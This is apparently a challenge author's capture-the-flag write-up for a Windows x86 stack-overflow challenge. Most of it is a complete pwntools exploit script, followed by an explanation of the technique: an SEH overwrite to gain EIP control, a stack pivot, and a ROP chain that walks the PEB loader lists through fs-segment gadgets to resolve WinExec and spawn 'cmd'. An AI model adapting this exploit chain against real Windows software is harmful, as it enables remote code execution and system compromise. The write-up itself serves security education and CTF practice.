


# Intro 

For this challenge I really wanted to make sure its "windowsy" enough, so pretty much all the key solve-points are exclusive to windows. That being said, the environment is significantly harder to setup than an average linux pwn challenge, so that could've been a significant deterrent from people attempting this(😞)
Anyway, let's get to the important part - the solve.


# TL;DR
my solvescript:
```py
from pwn import *


port = 13370
c = connect('localhost', port)


"""
typedef struct _UNICODE_STRING
{
    USHORT Length;
    USHORT MaximumLength;
    PWSTR  Buffer;

} UNICODE_STRING, * PUNICODE_STRING;

typedef struct _PEB_LDR_DATA
{
    ULONG Length;
    BOOLEAN Initialized;
    HANDLE SsHandle;
    LIST_ENTRY InLoadOrderModuleList;
    LIST_ENTRY InMemoryOrderModuleList;
    LIST_ENTRY InInitializationOrderModuleList;
    PVOID      EntryInProgress;

} PEB_LDR_DATA, * PPEB_LDR_DATA;

//here we don't want to use any functions imported form extenal modules
struct _LDR_DATA_TABLE_ENTRY {
    LIST_ENTRY  InLoadOrderModuleList;
    LIST_ENTRY  InMemoryOrderModuleList;
    LIST_ENTRY  InInitializationOrderModuleList;
    void* BaseAddress;
    void* EntryPoint;
    ULONG   SizeOfImage;
    UNICODE_STRING FullDllName;
    UNICODE_STRING BaseDllName;
    ULONG   Flags;
    SHORT   LoadCount;
    SHORT   TlsIndex;
    HANDLE  SectionHandle;
    ULONG   CheckSum;
    ULONG   TimeDateStamp;
} LDR_DATA_TABLE_ENTRY, * PLDR_DATA_TABLE_ENTRY;


typedef struct _PEB
{
    BOOLEAN InheritedAddressSpace;
    BOOLEAN ReadImageFileExecOptions;
    BOOLEAN BeingDebugged;
    BOOLEAN SpareBool;
    HANDLE Mutant;

    PVOID ImageBaseAddress;
    PPEB_LDR_DATA Ldr;

    // [...] this is a fragment, more elements follow here

} PEB, * PPEB;

#endif //__NTDLL_H__

"""
#print(c.recvline())

tot_head = 0x48 - 0x4 + 0x1000 - 4 + 0x20 - 8 

#19f914 - 19ef24 = 9f0
espadd_offset = 0x9f0 + 0x40 - (15 * 4) + 0x50 - (16 * 4) - 16 - 0x800

add_esp = 0x00001051 # add esp, 0x1000; ret;
pop_ecx = 0x0000101e # pop ecx; ret;

mov_fs0x60_ecx = 0x00001020 # mov dword ptr fs:[0x60], ecx; ret;
mov_edx_fs0x60 = 0x00001058 # mov edx, dword ptr fs:[eax]; ret;
mov_fs_eax = 0x00001000 #: mov eax, dword ptr fs:[0x18]; add eax, ecx; ret;
add_ecx_eax = 0x00001037 #: add ecx, eax; mov eax, ecx; ret;
fs_read_deref_pop_ecx = 0x00001017 # call 0x1000; mov eax, dword ptr [eax]; pop ecx; ret;
deref_pop_ecx = 0x0000101c #: mov eax, dword ptr [eax]; pop ecx; ret;
push_push_call = 0x0000104d #push ecx; push edx; call eax; 
inf_loop = 0x00001060 #: jmp 0x1060;


LDR_off = 0x8 + 4
LoadOrderModuleList_off = 0
MemOrderModuleList_off = 0x8
InitOrderModuleList_off = 0x10
LdrTableOff = 0xC

ModuleBase_off = 0x18
#VERSION DEPENDENT!!!
#WinExec_off = 0x54D20 + 0x10000 - 0x1000 #+ 3
WinExec_off = 0x555F0 + 0x10000 - 0x1000


#side effects: sets esi and ebp to 0
def add_eax_imm32(v, set_esi=0, set_ebp=9):
    return p32(pop_ecx_ret) + p32(v) + p32(add_eax_ecx) + p32(set_esi) + p32(set_ebp)


init_line = c.recvuntil(b":P").decode()
print(init_line)
module_base = int(init_line.split(",")[0].split(" ")[-1], base=16)

print(f"module base: {hex(module_base)}")

# c.sendline(b'A'*0x1005)
# c.interactive()

add_esp += module_base
pop_ecx += module_base
mov_fs0x60_ecx += module_base
mov_edx_fs0x60 += module_base
mov_fs_eax += module_base
add_ecx_eax += module_base
fs_read_deref_pop_ecx += module_base
deref_pop_ecx += module_base
push_push_call += module_base


payload = b"A"*(espadd_offset)

ropchain = b''

# real rop starts here

#init cmd string first


#add 2 half(lol)
ropchain += p32(pop_ecx)
ropchain += p32(0x30)
ropchain += p32(mov_fs_eax)

ropchain += p32(add_ecx_eax)
#write to fs
ropchain += p32(mov_fs0x60_ecx)
#read into rdx
ropchain += p32(mov_edx_fs0x60)
#now rdx holds cmdline(cmd)

#now we write the actual cmd inside
ropchain += p32(pop_ecx)

ropchain += b'cmd\x00'
ropchain += p32(mov_fs0x60_ecx)


#and finally we can start resolving k32 location

ropchain += p32(pop_ecx)
ropchain += p32(0x30)


#now eax = peb
ropchain += p32(fs_read_deref_pop_ecx)

#ropchain += p32(pop_ecx)
ropchain += p32(LDR_off)
ropchain += p32(add_ecx_eax)

ropchain += p32(deref_pop_ecx)
ropchain += p32(InitOrderModuleList_off + LdrTableOff)


ropchain += p32(add_ecx_eax)

#ntdll
ropchain += p32(deref_pop_ecx)
ropchain += p32(0)
#kbase
ropchain += p32(deref_pop_ecx)
ropchain += p32(0)
#k32, dst reached, now to get imagebase
ropchain += p32(deref_pop_ecx)
ropchain += p32(8)
ropchain += p32(add_ecx_eax)
ropchain += p32(deref_pop_ecx)


#set ecx to winexec off
ropchain += p32(WinExec_off)
ropchain += p32(add_ecx_eax)
#now eax is ready for call
#still need to set ecx though
ropchain += p32(pop_ecx)
ropchain += p32(1)


ropchain += p32(push_push_call)

loopchain_pad = b'B' * (0x800 - len(ropchain) + 36 + 0x10 * 5 + 4)
espadd_offset_2 = espadd_offset + 0x800

inf_loop += module_base
ropchain_loop = b''
ropchain_loop += p32(inf_loop)

#shell :DD


payload += ropchain
payload += loopchain_pad
payload += ropchain_loop

payload += b"A" * (tot_head - espadd_offset - len(ropchain) - len(ropchain_loop) - len(loopchain_pad))

#payload += b'\x69\x69\x69\x69' 
payload += b'XDXD' 


#0x409a75 -> system()
#target

#0x00401089 : add esp, 0x1000 ; pop ebp ; ret
payload += p32(add_esp)


#trigger segfault

payload += b" " * 0x4000


#print(payload)
#input("enter to send")


c.sendline(payload)

c.interactive()


```

Use the overflow to trigger a segfault, control EIP with SEH, pivot stack to user-controlled region, and use ROP to parse PEB to get to WinExec.


# Slightly longer explanation

So, the first thing you will notice about this challenge is that even though there is an obvious stack overflow, it is not possible to do a conventional ROP, since other than my fake stack checker(the "canary" is a constant value lol), I did also enable the real stack checker that would not be bypassable.

The key to getting EIP control here is of course windows only. SEH(structured exception handling) is windows' native implementation on try/catches. The implementation on x32 is essentially a linked list of exception handler function pointers on the **stack** which will all get ran when an exception is encountered, such as division by zero, etc, and the one that we will be using - segfaults(There are protections against this, both in compiler settings and system settings, all of which are explicitly disabled here). With the stack overflow we can get a write to an unmapped address, triggering a segfault, and by extension, getting EIP control.

Once we get EIP control, we can't do rop just yet since our stack looks like this:
 

we can use the following gadget:

to pivot our stack to a place where we are able to control. 
Now we are free to do whatever ROP we'd like, but we still have another problem: actually getting a shell.
The gadgets we have access to are extremely limited since only the stack checker module base is leaked, and there are nothing(that I know of lol) else that can leak more information about the process. So, we have to only make use of the gadgets, which, you may have noticed, includes an abnormally high amount of `fs: ` gadgets.

So what's so good about being able to read stuff from the file segment? Well it turns out, besides using it as TLS, windows also stores a LOT of other info here, including stuff like module base addresses. 
Here's the 2 most important offsets:
`fs:0x30`: PEB struct pointer, which contains a reference to LDR head, which itself contains several linked lists of all loaded modules in different order. Any one of them would probably work but I found InInitOrder to be the most consistent(ntdll, kernelbase, kernel32).

`fs:0x18`: The value of fs itself. This can be used to get any value from `fs:offset`, including `fs:0x30`.

It should be pretty much smooth sailing from here. Store cmd somewhere and make sure you have a reference to it(I used the location where the canary used to be), walk PEB and the linked list, offset to WinExec, and call it. You can also make it so that you ret into a loop afterwards but it would still work without it, albeit less consistently.

...And that's pretty much it! There were some inconsistencies across different machines even in a VM, and the environment was quite tedious to set up, which I really apologize for. But other than that, I hope the challenge was fun to solve for anyone that tried :)


